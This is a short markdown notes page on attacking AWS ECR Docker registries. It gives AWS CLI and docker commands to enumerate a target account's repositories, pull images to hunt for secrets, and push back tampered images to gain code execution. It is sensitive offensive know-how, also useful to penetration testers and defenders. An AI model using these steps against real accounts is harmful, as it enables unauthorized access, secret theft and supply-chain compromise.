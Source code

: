 ```yaml
---
is_a: "[[note]]"
topics: "[[hacking aws]]"
---
```

# Notes
AWS [ECR](https://docs.aws.amazon.com/AmazonECR/latest/userguide/what-is-ecr.html) is Amazon's Docker repository service. Getting access could allow for:
* Downloading docker images to view source code or look for secrets
* Uploading docker images with malware, getting code execution if run in the target environments

## Links
* [User Guide](https://docs.aws.amazon.com/AmazonECR/latest/userguide/what-is-ecr.html)
* [CLI Reference](https://docs.aws.amazon.com/cli/latest/reference/ecr/index.html#cli-aws-ecr)

## Prerequisites
This assume you:
* Have an AWS account, configured for CLI access
* Have Docker installed

## Recon
Recon will be hard. To get access to a repository, you need the target AWS account number and repository name.

# Hacking ECR
When using the AWS CLI, ```registry-id``` is the target AWS account number. 

## Finding repositories
Unless the target is really misconfigured, you probably don't have permissions.

```aws ecr describe-repositories --registry-id <aws-account-number>```

If the repository is public, or misconfigured, you can get information about a specific repository. This gives the repository region.

```aws ecr describe-repositories --registry-id <aws-account-number> --repository-name <repository-name>```

## Listing images in a repository
If a repository is either Public, or Private with misconfigured permissions, you may be able to get the docker images.

```aws ecr list-images --registry-id <aws-account-number> --repository-name <repository-name>```

## Log into docker
This appears to login to the entire registry for the target account. Perhaps this could leak more information about repositories?
```
aws ecr get-login-password --region <region> | docker login --username AWS --password-stdin <aws_account_id>.dkr.ecr.<region>.amazonaws.com
```

## Pulling an image
```docker pull <aws-account-number>.dkr.ecr.<region>.amazonaws.com/<repository-name>:latest```

## Inspecting an image
After pulling an image, inspecting it might give hints on where to look for interesting things

```docker inspect <aws-account-number>.dkr.ecr.<region>.amazonaws.com/<repository-name>```

## Hacking an image
If the ECR repository allows, hack the docker image and upload into the repository. See [docker](shared/hacking/docker.md) for instructions. When pushing the image back into the repository, use the AWS repository format.

```
docker image push <aws-account-number>.dkr.ecr.<region>.amazonaws.com/<repository-name>:latest
```

Verify that the image pushed, by checking SHA hashes

```aws ecr list-images --registry-id <aws-account-number> --repository-name <repository-name>```


